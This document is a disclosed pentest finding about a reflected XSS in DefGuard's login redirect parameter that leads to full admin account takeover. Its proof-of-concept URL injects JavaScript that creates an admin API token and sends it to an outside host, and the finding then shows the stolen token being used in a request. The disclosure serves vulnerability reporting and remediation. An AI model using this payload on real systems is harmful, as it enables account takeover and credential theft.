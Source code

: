 ```yaml
---
title: "DG25-18: Reflected Cross-Site Scripting (XSS) leading to full account takeover"
severity: High
cvss_score: 8.1
cvss_string: "/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N"
issue_link: https://github.com/DefGuard/defguard/issues/1559
status: Completed
---
```


### Technical details

1.  Non logged-in user visits below link:

`https://defguard.dvpnsec.net/auth/login?r=javascript:alert(document.domain)`

2.  After providing username and password and clicking Login button, XSS
    will be executed.

![](/images/pentest/DG25/img6.png)

The main issue with above payload, is that this is an pre-auth XSS. It
executes after clicking Login button - but before assigning the user\'s
session.To bypass this limitation - we\'ve used the window.open - to
open the DefGuard in the new window - where user will be finally logged
in - thus the session will be assigned to the user.As soon as the user
becomes logged in - we\'re utilizing XMLHttpRequest to create new API
Token via /api/v1/user/admin/api_token and send its result back to
isec.pl.

#### PoC - full account takeover:

1.  Non logged-in user visits below link:

`https://defguard.dvpnsec.net/auth/login?r=javascript:window.open('https://defguard.dvpnsec.net');var
xmlhttp = new XMLHttpRequest();xmlhttp.onreadystatechange = (e) =>
{window.location='https://isec.pl?'%2bxmlhttp.responseText};xmlhttp.open("POST",
"/api/v1/user/admin/api_token");xmlhttp.setRequestHeader("Content-Type",
"application/json");xmlhttp.send(JSON.stringify({ "name":
"qweqwe123xxxxxxx", "username": "admin" }))`

2.  After providing username and password and clicking Login button, XSS
    will be executed.

3.  window.open() assigns session to the current DOM.

4.  XMLHttpRequest sends request to `/api/v1/user/admin/api_token` which creates new API Token.

5.  API Token value is being send back to the attacker server via\
    window.location: `https://isec.pl/?{%22token%22:%22dg-ZAf9lWt6tJShBD6KzahF475GfDSAzAJa%22}`

1.  Attacker has now access to the freshly created API Token and can use
    it to perform operation on behalf of admin:

**Request:**\
\
**GET** /api/v1/me HTTP/2\
**Host:** defguard.dvpnsec.net\
**Authorization:** Bearer dg-ZAf9lWt6tJShBD6KzahF475GfDSAzAJa\
\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Fri, 08 Aug 2025 13:59:38 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 456\

```json
{ 
 "authorized_apps ":  [ 
 [ ... ] 
 ], 
 "email ":  "admin@defguard ", 
 "email_mfa_enabled ": false, 
 "enrolled ": true, 
 "first_name ":  "DefGuard ", 
 "groups ":  [ 
 "admin " 
 ], 
 "id ": 1, 
 "is_active ": true, 
 "is_admin ": true, 
 "last_name ":  "Administrator ", 
 "ldap_pass_requires_change ": false, 
 "mfa_enabled ": false, 
 "mfa_method ":  "None ", 
 "phone ":  " ", 
 "totp_enabled ": false, 
 "username ":  "admin " 
}
```